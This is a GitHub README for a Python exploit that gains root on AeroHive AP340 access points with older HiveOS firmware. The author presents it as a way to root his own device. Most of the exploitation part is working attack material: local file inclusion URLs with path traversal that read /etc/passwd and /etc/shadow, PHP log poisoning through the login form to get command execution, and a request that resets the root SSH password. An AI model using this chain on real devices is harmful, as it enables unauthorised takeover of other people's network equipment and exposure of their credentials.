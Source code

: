 # aerohive-ap340-root
Python script to change the root password on the AeroHive AP340 with HiveOS < 6.1R5
The result is direct root command line access via /bin/sh rather than the locked down AH CLI.

Usage:
> python3 ap340-exploit.py

## Dependencies
Python3
Urllib

## Recon

I first set about to try and root this device with the hopes of building/installing something like
OpenWrt on it. I have yet to accomplish that as of yet, but I did manage to gain root access via SSH
allowing me to bypass the ah_cli "jail" shell.

As a start, I downgraded the firmware of my AP340 by using the ah_cli to boot into the backup partition which
happened to have an older firmware version. Here the thinking was that I would maximize my chances at finding
an exploitable vuln by having it as out of date as possible.

To start, I did some open source recon and found the following vulnerability listing on exploit-db:

https://www.exploit-db.com/exploits/34038/

"Aerohive version 5.1r5 through 6.1r5 contain two vulnerabilities, one reflective XSS vulnerability and a **limited local file inclusion vulnerability (I was only able to view source from one specific folder, *maybe you can leverage this further)***. 
It's possible earlier version are affected, I was only able to review 5.1r5 briefly, the vendor indicated other version up to 6.1r5 are vulnerable as well."

## Exploitation
Of particular interest was the LFI vulnerability and the tantalizing "maybe you can leverage this further."
With every intent to leverage this further, I tested the example LFI from the exploit-db page:

> http://<IP>/action.php5?_action=get&_actionType=1&_page=php://filter/convert.base64-encode/resource=ManagementAP

This returned the ManagementAP PHP page as promised. Great!
The only problem was that the web server was appending ".php" to any other file that we tried to read.
We can fix this by adding a null byte "%00" to the end of the filename since the web server is running 
an old version of PHP.

Now we can read arbitrary files like /etc/passwd with:
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../etc/passwd%00

We can also see the shadow file with:
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../etc/shadow%00

Great! The web server is running as a privileged user. I tried cracking the hashes for around 30 minutes with John to no avail.
Your mileage may vary. In any case, this was a dead end that I put off till later if I couldn't find another way in.

## Post Exploitation
We can also see the system boot/error logs with:
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../var/log/messages%00

After reading /var/log/messages I noticed that it was logging usernames with something like:

"Failed login for user <username>"

I then read up on some techniques for escalating LFI to RCE and came upon this article:

http://www.hackingarticles.in/exploit-webserver-log-injection-lfi/

I then tested some inputs on the username field of the login for the web server and eventually, the 
/var/log/messages file presented me with a syntax error after entering <?php blah as input.

Success! The web server is interpreting the php tags and throwing errors since I didn't provide valid PHP.
The down side was that I now had a broken /var/log/messages file. A simple reboot and the logs rotated with fresh
data and we were back up and running.

I then pasted a simple PHP command shell into the username field of the web form login.
I used this one: http://snipplr.com/view/72936/simple-php-backdoor-shell/

I entered gibberish as the password, then hit enter.

Browsing to the LFI for /var/log/messages again with the following URL and ...
> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../var/log/messages%00&cmd=whoami

Viewing source for the page and searching for "whoami" and we see that it worked! The web server process is running as the root user.

## Privilege Escalation

Now, how to get a reverse shell? There are lots of methods out there for running netcat, telnet, fifo shells, etc.
I chose to go the simple route and just reset the root SSH password with:

> http://<IP>/action.php5?_action=get&_actionType=1&_page=../../../../../../../../../../var/log/messages%00&cmd=echo+root:password+|+/usr/sbin/chpasswd

http://imgur.com/9InNHHi

Will change the root password for SSH to "password"

Then logging in with user root and password "password", we get a root shell!

If anyone has any suggestions for building/flashing the device with something like Tomato or OpenWrt, please let me know with an issue request/pull request, etc.

tl;dr the steps are as follows:

1. Poison the log file in /var/log/messages by injecting PHP code into the username field of the login page
2. Call the uploaded PHP shell with the LFI URL, changing the root password for SSH
3. Login with SSH as root using password "password"
